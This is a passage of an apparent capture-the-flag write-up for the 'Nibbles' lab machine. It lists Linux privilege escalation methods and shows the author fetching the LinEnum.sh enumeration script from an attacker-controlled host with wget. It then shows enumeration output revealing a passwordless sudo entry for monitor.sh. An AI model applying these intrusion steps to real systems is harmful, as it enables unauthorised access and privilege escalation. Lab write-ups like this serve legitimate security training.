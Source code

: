 ```
bash: no job control in this shell                                                                                                                                                                           
nibbler@Nibbles:/home$                     
```

## Privilege Escalation

A typical Linux privilege escalation method is based on one of the following:

1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits

Kernel exploits are typically our last resort, as there is a risk that we crash the system in the process. 

There are several scripts that automates this process for us.

I cd to /dev/shm, download a privesc-script from my attacking machine over http.

```
nibbler@Nibbles:/home/nibbler$ cd /dev/shm 
cd /dev/shm
nibbler@Nibbles:/dev/shm$ wget http://10.10.14.17:8000/LinEnum.sh
wget http://10.10.14.17:8000/LinEnum.sh 
--2018-11-11 15:38:52--  http://10.10.14.17:8000/LinEnum.sh
Connecting to 10.10.14.17:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 47066 (46K) [text/x-sh]
Saving to: 'LinEnum.sh'

     0K .......... .......... .......... .......... .....     100%  450K=0.1s
                                                                 
2018-11-11 15:38:52 (450 KB/s) - 'LinEnum.sh' saved [47066/47066]

nibbler@Nibbles:/dev/shm$ chmod +x LinEnum.sh
chmod +x LinEnum.sh                                                    
```

The enumeration shows the following potential privesc:

```
[+] We can sudo without supplying a password!                                                                                     
Matching Defaults entries for nibbler on Nibbles:                                                                                 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                
                                                                                                                                    
User nibbler may run the following commands on Nibbles:                                                                               
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh                                                                         
                                                                                                                                     
                                                                                                                                  
[+] Possible sudo pwnage!                                                                                                            
/home/nibbler/personal/stuff/monitor.sh  
```
